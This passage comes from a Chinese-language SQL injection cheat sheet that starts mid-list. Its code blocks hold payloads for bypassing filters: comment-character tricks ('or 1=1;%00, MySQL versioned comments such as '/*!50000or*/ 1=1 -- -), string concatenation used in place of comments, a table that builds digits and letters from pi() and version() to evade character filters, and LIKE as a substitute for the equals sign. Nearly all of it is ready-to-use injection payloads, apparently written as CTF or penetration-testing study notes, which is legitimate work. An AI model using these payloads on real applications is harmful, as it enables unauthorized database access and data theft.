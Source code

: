 6.对于字符串参数可以利用 引号和反引号还传递参数。

7.由于`<>` 等价于 `!=`,我们可以再加一个`!`来构成`=`的效果.

![image-20210201164131405](image-20210201164131405.png)

8.符号、字母与数字间的空格可以适当省略。

![image-20210201112258586](image-20210201112258586.png)

### 注释符绕过

在sql中，注释符有：两种单行注释符和多行注释。

```sql
#， 
-- X(X为任意字符)
/*(MySQL-5.1)
;%00
`
'or 1=1;%00
'or 1=1 union select 1,2`'
'or 1=1 # 
'/*!50000or*/ 1=1 -- -      //版本号为5.1.38时只要小于50138
'/*!or*/ 1=1 -- -
```

若`#` 、`-`同时被ban。可以使用逻辑符与引号转字符串绕过。

```sql
' union select 1,2,3||'x
#这样  x 所在的位置及以后的内容就变成字符串，加上 `||` 作用就起了等同于注释的作用
```



### 数字与大写字母绕过

```
false !pi()           0     ceil(pi()*pi())           10 A      ceil((pi()+pi())*pi()) 20       K
true !!pi()           1     ceil(pi()*pi())+true      11 B      ceil(ceil(pi())*version()) 21   L
true+true             2     ceil(pi()+pi()+version()) 12 C      ceil(pi()*ceil(pi()+pi())) 22   M
floor(pi())           3     floor(pi()*pi()+pi())     13 D      ceil((pi()+ceil(pi()))*pi()) 23 N
ceil(pi())            4     ceil(pi()*pi()+pi())      14 E      ceil(pi())*ceil(version()) 24   O
floor(version())      5     ceil(pi()*pi()+version()) 15 F      floor(pi()*(version()+pi())) 25 P
ceil(version())       6     floor(pi()*version())     16 G      floor(version()*version()) 26   Q
ceil(pi()+pi())       7     ceil(pi()*version())      17 H      ceil(version()*version()) 27    R
floor(version()+pi()) 8     ceil(pi()*version())+true 18 I      ceil(pi()*pi()*pi()-pi()) 28    S
floor(pi()*pi())      9     floor((pi()+pi())*pi())   19 J      floor(pi()*pi()*floor(pi())) 29 T
```

### 等号绕过

我们可以用LIKE 替代。

```sql
id =  'USER'
id LIKE 'USER'
```
